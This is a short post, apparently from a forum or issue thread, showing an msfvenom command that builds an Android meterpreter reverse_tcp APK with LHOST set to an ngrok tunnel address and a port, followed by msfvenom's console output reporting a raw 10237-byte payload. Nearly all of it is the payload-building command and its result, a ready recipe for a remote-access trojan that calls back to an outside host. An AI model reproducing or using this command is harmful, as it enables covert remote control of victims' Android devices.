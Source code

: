 # metasploit
get this while creating payload
msfvenom -p android/meterpreter/reverse_tcp LHOST=0.tcp.ngrok.io LPORT=19105 R>Downloads android.apk

[-] No platform was selected, choosing Msf::Module::Platform::Android from the payload
[-] No arch selected, selecting arch: dalvik from the payload
No encoder specified, outputting raw payload
Payload size: 10237 bytes
